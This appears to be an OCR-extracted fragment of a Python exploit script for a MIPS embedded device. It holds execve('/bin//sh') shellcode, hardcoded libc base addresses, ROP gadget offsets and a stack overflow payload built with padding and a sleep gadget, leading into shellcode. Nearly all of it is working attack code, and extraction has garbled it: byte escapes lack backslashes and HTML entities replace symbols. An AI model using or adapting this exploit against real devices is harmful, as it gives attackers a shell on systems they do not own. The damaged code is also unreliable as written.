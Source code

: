 ```
        "x62x69x0fx3c", # lui   t7,0x6962
        "x2fx2fxefx35", # ori   t7,t7,0x2f2f
        "xecxffxafxaf", # sw    t7,-20(sp)
        "x73x68x0ex3c", # lui   t6,0x6873
        "x6ex2fxcex35", # ori   t6,t6,0x2f6e
        "xf0xffxaexaf", # sw    t6,-16(sp)
        "xf4xffxa0xaf", # sw    zero,-12(sp)
        "xecxffxa4x27", # addiu a0,sp,-20
        "xf8xffxa4xaf", # sw    a0,-8(sp)
        "xfcxffxa0xaf", # sw    zero,-4(sp)
        "xf8xffxa5x27", # addiu a1,sp,-8
        "xabx0fx02x24", # li    v0,4011
        "x0cx01x01x01"  # syscall   0x40404
    ], '')



# sleep = 0x767142b0 qemu
# sleep = 0x2ab6d2b0 device



# libraries and offsets
libc = 0x2ab3e000 #0x766e5000 #0x2ab3e000 #
sleep_offset = 0x0002f2b0
rop1_offset = 0x000377cc # to get s1 and s0
rop2_offset = 0x000189ec # move t9, s0 jalr t9, nop
rop3_offset = 0x00033d8c # sp into a1
rop4_offset = 0x0001fbcc # a1 into t9 then jump to t9

# Craft Exploit
message = "A" * 51 # Padding
message += struct.pack("&lt;L", libc+rop1_offset) # RA rop1
message += "B" * 40 # padding for lw offset

#Gadget 2 - sleep
message += struct.pack("&lt;L", libc+sleep_offset) #s0 0x28
message += "MMMM" #s1 0x2c
message += struct.pack("&lt;L", libc+rop2_offset) #ra 0x30

# Gadget 3
message += "C" * 60
message += "0" * 4 # s0
message += "1" * 4 # s1
message += "2" * 4 # s2
message += "3" * 4 # s3
message += "4" * 4 # s4
message += struct.pack("&lt;L", libc+rop3_offset) # RA


# Gadget 4
message += "D" * (72-48)

# XOR s0, s0
message += struct.pack("&lt;L",0x02108026) #xor s0 s0
message += struct.pack("&lt;L",0x02b5a826)
message += struct.pack("&lt;L",0x02b5a826)
message += struct.pack("&lt;L", 0xafb0fff8) # sw s0, -8(sp)

#One more Sleep for 5 seconds

# nop to shellcode
message += struct.pack("&lt;L",0x02b5a826) * 8 # xor s5,s5
```